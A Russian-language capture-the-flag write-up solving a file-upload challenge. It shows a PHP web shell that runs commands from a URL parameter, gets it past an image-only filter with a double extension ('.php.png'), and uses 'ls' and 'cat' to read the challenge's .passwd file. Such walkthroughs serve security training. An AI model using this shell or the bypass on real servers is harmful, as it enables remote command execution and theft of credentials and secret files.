


# File upload - double extensions
20 Points
Gallery v0.02

Statement
Your goal is to hack this photo galery by uploading PHP code.
Retrieve the validation password in the file .passwd at the root of the application.


Исходя из названия таска, сразу переходим на вкладку upload. Попробуем загрузить файл с кодом, например php, который будет выполнять системные команды. Его код:
```php
<?php
    $out = shell_exec($_GET['cmd']);
    echo "<pre>$out</pre>";
?>
```

Давайте назавем его evilcode.php. Но загружать можно только файлы с расширениями .gif, .jpeg и .png. Что-ж, давайте допишем еще одно расширение. Пусть мы назовем файл evilcode.php.png и загрузим его. После загрузки файла мы можем на него перейти. Но перейдем по нему с GET-параметром cmd и выведем текущую директорию.

По заданию нам сказано, что мы должны открыть файл .passwd, который лежит в корне приложения (таска). Попробуем вывести список файлов в этой директории с помощью команды ls -la /challenge/web-serveur/ch20


Видим, что там действительно есть файл .passwd. Выведем его содержимое с помощью команды
> cat /challenge/web-serveur/ch20/.passwd
и получим флаг
